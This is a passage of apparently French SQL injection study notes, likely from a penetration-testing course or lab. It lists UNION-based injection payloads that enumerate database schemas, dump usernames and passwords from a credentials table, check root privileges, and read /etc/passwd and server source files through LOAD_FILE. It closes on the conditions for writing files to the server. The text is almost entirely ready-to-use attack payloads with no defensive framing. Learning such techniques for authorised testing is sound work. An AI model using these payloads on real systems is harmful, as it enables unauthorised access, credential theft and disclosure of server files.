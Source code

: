 ```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

## Reading Files : 

Savoir qui nous sommes : 
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

L'injection devient : 
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

Connaitre nos privilèges : 
```sql
SELECT super_priv FROM mysql.user
```

L'injection devient : 
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

Pour voir nos privilèges : 
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

Lire des fichiers : 
```sql
SELECT LOAD_FILE('/etc/passwd');
```

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

## Writing Files : 

To be able to write files to the back-end server using a MySQL database, we require three things:
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
